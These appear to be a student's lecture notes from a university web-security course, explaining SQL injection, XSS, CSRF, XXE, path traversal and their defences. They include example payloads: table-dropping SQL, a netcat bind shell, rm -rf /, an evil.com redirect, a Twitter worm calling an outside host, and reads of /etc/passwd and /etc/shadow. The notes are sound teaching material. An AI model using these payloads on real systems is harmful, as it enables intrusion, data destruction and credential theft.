

# Computer Security and Networks - Week Eight

## SQL Injection Attacks

In the URL `http://www.shop.com/page?do=buy&product=17453`  
Web server looks up “17453” in an SQL DB using:
```sql
SELECT * FROM products WHERE (code=‘17453’)

INSERT INTO sales VALUES (id, customer, 17453)
```

i.e. `http://www.eshop.co.ukaction=buy&product=X` results in:
```sql
SELECT * FROM products WHERE (code=‘X’)
```

If we set `X= ‘) ; DROP TABLE products; --`
Then the following is executed on the server (if the input is not sanitised properly) and deletes the entire `products` table:
```sql
SELECT * FROM products WHERE (code=‘‘) ; DROP TABLE products; --
```
(the '-- ' a the end comments out/tells server to ignore everything else on the line (since there might be more code following `X` in the original query). Also note the space after the '--', if you don't include it the injection might not work properly)

Or we could set `X= ' OR '1'='1’ ) --` so that the following query runs:
```sql
SELECT * FROM users WHERE (item=‘’ OR ‘1’=‘1’) -- ’)
```
`‘1’=‘1’` is always true so the condition will always be true and sql will return every single user.

### SQL Attack Types
The best vulnerabilities will print the result of the SQL query.
- This lets you explore the whole database
- Information schema table can tell you the names of all other tables

Blind SQL attacks don’t print there results:
- Lots of guesswork needed
- Run commands on database, e.g. add a password, delete tables
- Copy data (e.g. password) into a field you can read

### Preventing SQL Attacks
You need to check/clean every input to avoid injections.
In PHP:
```
mysqli_real_escape_string()
```
e.g.: `“\'OR \'1\'=\'1\'–”` maps to `“\\\'OR \\\'1\\\'=\\\'1\\\'--”`

Though this isn't perfect - you can still construct injections that will work around `mysqli_real_escape_string()`. Instead you should use *prepared statements*:
```php
// prepare and bind
$stmt = $conn->prepare("INSERT INTO People
(firstname, lastname) VALUES (?, ?)");
$stmt->bind_param("ss", $firstname, $lastname);
// set parameters and execute
$firstname = "John"; $lastname = "Doe"; $stmt->execute();
```

*N.B.* Don't sanitise inputs in javascript (or any client-side code) because the client can choose whether or not they want the code to run.

### Non-SQL injections
You can inject in any command language, not just SQL, for instance with shell:

- `nc -l -p 9999 -e /bin/bash`
    - Start a shell on port 9999
- `useradd tpc -p rEK1ecacw.7.c`
    - Add user tpc:npassword
- `rm –f –r /`
    - Delete everything

You can also sometimes inject php code for the server to run (depending on how the server is set up).

## Cross Site Scripting (XSS)
- An input validation vulnerability.
- Allows an attacker to inject client-side code (JavaScript) into web pages.
- Looks like the original website to the user, but actually modified by attacker.

You can insert (javascript) code into the website somehow, e.g. as `X` in `http://www.eshop.co.ukaction=buy&product=X` (which could then be sent as a link to an unassuming user), or in a part of a website where users are allowed to upload html/js. The code in `X` is often obfuscated so that it is hard for a server or a client to see what's going on.

### Reflected XSS
The injectedcode is reflected off the web server
- an error message,
- search result,
- response includes some/all of the input sent to the server as part of the request

Only the user issuing the malicious request is affected.

```js
String searchQuery =
request.getParameter(“searchQuery”);
...
PrintWriter out = response.getWriter();
out.println(“<h1>” + “Results for “ + searchQuery + “</h1>”);
```
User request:
```
searchQuery=<script>
alert(“pwnd”)</script>
```

### Stored XSS

The injected code is stored on the web site and served to its visitors on all page views
- User messages
- User profiles

All users affected.
```js
String postMsg = db.getPostMsg(0);
...
PrintWriter out = response.getWriter();
out.println(“<p>” + postMsg);
```
postMsg:
```
<script>alert(“pwnd”) </script>
```

#### Stealing Cookies
XSS attacks can be used to steal cookies, since javascript has access to a user's cookies and can make remote connections (to send the cookies to). Then the attacker can log in as the user with this cookie.

#### Phishing
- Attacker injects script that reproduces look-and-feel of login page etc
- Fake page asks for user’s credentials or other sensitive information
- Variant: attacker redirects victims to attacker’s site
```html
<script>
     document.location = “http://evil.com”;
</script>
```

#### Running Exploits
- The attacker injects a script that launches a number of exploits against the user’s browser or its plugins
- If the exploits are successful, malware is installed on the victim’s machine without any user intervention
- Often, the victim’s machine becomes part of a botnet

### Solution for Injection
- Sanitize all user inputs is difficult
- Sanitization is context-dependent
    -JavaScript `<script>user input</script> ``
    - CSS value `a:hover {color: user input }``
    - URL value ``<a href=“user input”>``
- Sanitisation is attack-dependent, e.g.
    - JavaScript
    - SQL
- Blacklisting vs. whitelisting
- Roll-your-own vs. reuse
    - OWASP has a useful sanitisation cheatsheet that you can use if you don't want to have to write it all yourself.

#### XSS Example 1
```php
$clean = preg_replace(“#<script(.*?)>(.*?)</script(.*?)>#i”
,
  “SCRIPT BLOCKED”, $value);
echo $clean;
```
- Problem: over-restrictive sanitisation: browsers accept malformed input!
- Attack string: `<script>malicious code<`
- Implementation != Standard

#### XSS Example 2 (Real Twitter Bug)
On Twitter if user posts www.site.com, twitter displays:  
```
<a href=“www.site.com”>www.site.com</a>
```
Twitter’s old sanitisation algorithm blocked `<script>` but allowed `“`.

What happens if somebody tweets:
```
  http://t.co/@"onmouseover="$.getScript('http:\u002f\u002fis.gd\u002ffl9A7')”/
```
Twitter displays:
```
<a href="http://t.co@"onmouseover=” $.getScript('http:\u002f\u002fis.gd\u002 ffl9A7')"/">...</a>
```

Anyone putting mouse over such a twitter feed will will run JavaScript that puts a similar message in their own feed.

The actual attack used:
```
  http://t.co/@"style="font-size:999999999999px;"onmouseover=”.../
```

### PHP HTML Sanitisation
`htmlspecialchars()` removes characters that cause problems in HTML:
- & becomes &amp
- < becomes &lt
- \> becomes &gt
- ‘ becomes &quot
- “ becomes &#039

### Cross Site Request Forgery (CSRF)
1. Victim is logged into vulnerable web site
2. Victim visits malicious page on attacker web site
3. Malicious content is delivered to victim
4. Victim sends a request to the vulnerable web site



One well-known CSRF attack in Brazil tried request forgery on the computer's router (which usually has awful security) and changed the DNS server to a custom one. This helped add an appearance of legitimacy to phishing attacks - phishing pages would now even have the 'correct'/expected domain name.

#### Solutions to CSRF
##### 1
Check the value of the Referrer header?? NOPE
- Attacker cannot spoof the value of the Referrer header in the users browser (but the user can).
- Legitimate requests may be stripped of their Referrer header
- Proxies
- Web application firewalls

##### 2
Every time a form is served, add an additional parameter with a secret value (token) and check that it is valid upon submission
```html
<form>
    <input ...>
    <input name=“anticsrf” type=“hidden” value=“asdje8121asd26n1”
</form>
```
Every time a form is served, add an additional parameter with a secret value (token) and check that it is valid upon submission
If the attacker can guess the token value, then no protection

##### 3
Every time a form is served, add an additional parameter with a secret value (token) and check that it is valid upon submission.
If the token is not regenerated each time a form is served, the application may be vulnerable to replay attacks (nonce).

## XML External Entities
XML is very common in industry. XML processors resolve an “external
entity” during processing:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]> <foo>&xxe;</foo>
```

## Broken Access Control
Query strings are used to tell dynamic webpages what to do
```
http://myWebShop.com/index.php?account=tpc&action=add
```
```
http://myWebShop.com/index.php?account=tpc& action=show
```
What if the attacker tries:
```
http://myWebShop.com/index.php?account=admin& action=delete
```

## Path Traversal
The user can type anything they want into the URL bar, or even form the request by hand.
```
http://nameOfHost/../../../etc/shadow
```
If the webserver is running with root permission this will give me the password file.

### Path Traversal Solution
- Use access control settings to stop Path Transversal
- Best practice: make a specific user account for the webserver
- Only give that account access to public files

## Security Misconfiguration
Make sure your security settings don’t give an attacker an advantage, e.g.
- Error messages: should not be public.
- Directory listings: It should not be possible to see the files in a directory.
- Admin panels should not be publicly accessible.

## Insecure Deserialisation
- Deserialisation on the server of data provided by end user
- Attacker can change field names, contents, and mess with the format
- Remote code execution possible

## Using Components with Known Vulnerabilities
- If a new security patch comes out has it been applied?
- A patch might require you to bring down the site and so lose money.
- Or it might even break your website. Is it worth applying the patch?

## Insufficient Logging & Monitoring
- Auditable events not logged
- Warning and error message not logged
- Logs not monitored for suspicious activities

## Conclusion
- To secure a website you need to know how it works:
    - How clients request resources.
    - How clients are authenticated.
    - How HTTP and webservers work.
- Errors are often down to bad app logic
- Always sanitize everything.
